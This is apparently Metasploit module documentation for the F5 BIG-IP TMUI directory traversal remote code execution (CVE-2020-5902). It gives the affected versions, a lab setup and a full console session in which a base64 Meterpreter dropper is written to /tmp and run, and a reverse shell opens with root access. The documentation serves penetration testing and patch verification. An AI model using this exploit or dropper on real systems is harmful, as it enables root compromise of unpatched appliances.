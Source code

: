 ## Vulnerable Application

### Description

This module exploits a directory traversal in F5's BIG-IP Traffic
Management User Interface (TMUI) to upload a shell script and execute
it as the Unix root user.

Unix shell access is obtained by escaping the restricted Traffic
Management Shell (TMSH). The escape may not be reliable, and you may
have to run the exploit multiple times. Sorry!

Versions 11.6.1-11.6.5, 12.1.0-12.1.5, 13.1.0-13.1.3, 14.1.0-14.1.2,
15.0.0, and 15.1.0 are known to be vulnerable. Fixes were introduced
in 11.6.5.2, 12.1.5.2, 13.1.3.4, 14.1.2.6, and 15.1.0.4.

Tested against the VMware OVA release of 14.1.2.

### Setup

Download
[BIGIP-14.1.2-0.0.37.ALL-scsi.ova](https://downloads.f5.com/esd/serveDownload.jsp?path=/big-ip/big-ip_v14.x/14.1.2/english/virtual-edition/&sw=BIG-IP&pro=big-ip_v14.x&ver=14.1.2&container=Virtual-Edition&file=BIGIP-14.1.2-0.0.37.ALL-scsi.ova)
and import it into your desired virtualization software.

You _may_ need to log in to the management interface as the `admin` user
to complete system initialization and make the target exploitable. The
default password for the `admin` user is `admin`.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This executes a Unix command.

### 1

This uses a Linux dropper to execute code.

## Options

### WritableDir

Set this to a writable directory in which files will be dropped.
Defaults to `/tmp`.

## Scenarios

### F5 BIG-IP 14.1.2 in VMware Fusion

```
msf > use exploit/linux/http/f5_bigip_tmui_rce_cve_2020_5902
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf exploit(linux/http/f5_bigip_tmui_rce_cve_2020_5902) > options

Module options (exploit/linux/http/f5_bigip_tmui_rce_cve_2020_5902):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      443              yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf exploit(linux/http/f5_bigip_tmui_rce_cve_2020_5902) > set rhosts 172.16.249.179
rhosts => 172.16.249.179
msf exploit(linux/http/f5_bigip_tmui_rce_cve_2020_5902) > set lhost 172.16.249.1
lhost => 172.16.249.1
msf exploit(linux/http/f5_bigip_tmui_rce_cve_2020_5902) > run

[*] Started reverse TCP handler on 172.16.249.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Target is running BIG-IP 14.1.2.
[*] Creating alias list=bash
[-] Alias "list" already exists, deleting it
[*] Deleting alias list=bash
[+] Successfully deleted alias list=bash
[*] Creating alias list=bash
[+] Successfully created alias list=bash
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAASDH/aglYmbYQSInWTTHJaiJBWrIHDwVIhcB4UWoKQVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgARXKwQ+QFRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp+Wg8FSIXAeO3/5g==>>'/tmp/wCkkU.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/whuIi' < '/tmp/wCkkU.b64' ; chmod +x '/tmp/whuIi' ; '/tmp/whuIi' ; rm -f '/tmp/whuIi' ; rm -f '/tmp/wCkkU.b64'"]
[*] Executing command: echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAASDH/aglYmbYQSInWTTHJaiJBWrIHDwVIhcB4UWoKQVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgARXKwQ+QFRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp+Wg8FSIXAeO3/5g==>>'/tmp/wCkkU.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/whuIi' < '/tmp/wCkkU.b64' ; chmod +x '/tmp/whuIi' ; '/tmp/whuIi' ; rm -f '/tmp/whuIi' ; rm -f '/tmp/wCkkU.b64'
[*] Uploading /tmp/WuyGIfbP
[+] Successfully uploaded /tmp/WuyGIfbP
[*] Executing /tmp/WuyGIfbP
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3012516 bytes) to 172.16.249.179
[*] Meterpreter session 1 opened (172.16.249.1:4444 -> 172.16.249.179:55118) at 2020-07-17 06:06:38 -0500
[+] Deleted /tmp/WuyGIfbP
[*] Command Stager progress - 100.00% done (823/823 bytes)
[*] Deleting alias list=bash
[+] Successfully deleted alias list=bash

meterpreter > getuid
Server username: no-user @ localhost.localdomain (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : CentOS 7.3.1611 (Linux 3.10.0-514.26.2.el7.ve.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
